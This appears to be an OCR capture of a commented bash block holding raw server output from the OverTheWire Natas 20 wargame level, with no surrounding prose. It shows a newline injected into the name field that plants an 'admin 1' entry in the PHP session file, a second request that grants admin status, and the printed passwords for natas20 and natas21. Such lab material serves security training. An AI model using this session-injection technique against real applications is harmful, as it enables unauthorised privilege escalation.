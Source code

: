 ```bash
# <script>var wechallinfo = { "level": "natas20", "pass": "p5mCvP7GS2K6Bmt3gqhM2Fc1A5T8MVyw" };</script></head>
# <body>
# <h1>natas20</h1>
# <div id="content">
# DEBUG: MYREAD ops2rulih80ovmo6r6fabh7r05<br>DEBUG: Reading from /var/lib/php/sessions/mysess_ops2rulih80ovmo6r6fabh7r05<br>DEBUG: Read []<br>DEBUG: Name set to admin
# admin 1<br>You are logged in as a regular user. Login as an admin to retrieve credentials for natas21.
# <form action="index.php" method="POST">
# Your name: <input name="name" value="admin
# admin 1"><br>
# <input type="submit" value="Change name" />
# </form>
# <div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
# </div>
# </body>
# </html>
# DEBUG: MYWRITE ops2rulih80ovmo6r6fabh7r05 name|s:13:"admin
# admin 1";<br>DEBUG: Saving in /var/lib/php/sessions/mysess_ops2rulih80ovmo6r6fabh7r05<br>DEBUG: name => admin
# admin 1<br>
# <html>
# <head>
# <!-- This stuff in the header has nothing to do with the level -->
# <link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
# <link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
# <link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
# <script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
# <script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
# <script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
# <script>var wechallinfo = { "level": "natas20", "pass": "p5mCvP7GS2K6Bmt3gqhM2Fc1A5T8MVyw" };</script></head>
# <body>
# <h1>natas20</h1>
# <div id="content">
# DEBUG: MYREAD ops2rulih80ovmo6r6fabh7r05<br>DEBUG: Reading from /var/lib/php/sessions/mysess_ops2rulih80ovmo6r6fabh7r05<br>DEBUG: Read [name admin]<br>DEBUG: Read [admin 1]<br>DEBUG: Read []<br>You are an admin. The credentials for the next level are:<br><pre>Username: natas21
# Password: BPhv63cKE1lkQl04cE5CuFTzXe15NfiH</pre>
# <form action="index.php" method="POST">
# Your name: <input name="name" value="admin"><br>
# <input type="submit" value="Change name" />
# </form>
# <div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
# </div>
# </body>
# </html>
# DEBUG: MYWRITE ops2rulih80ovmo6r6fabh7r05 name|s:5:"admin";admin|s:1:"1";<br>DEBUG: Saving in /var/lib/php/sessions/mysess_ops2rulih80ovmo6r6fabh7r05<br>DEBUG: admin => 1<br>DEBUG: name => admin<br>
```
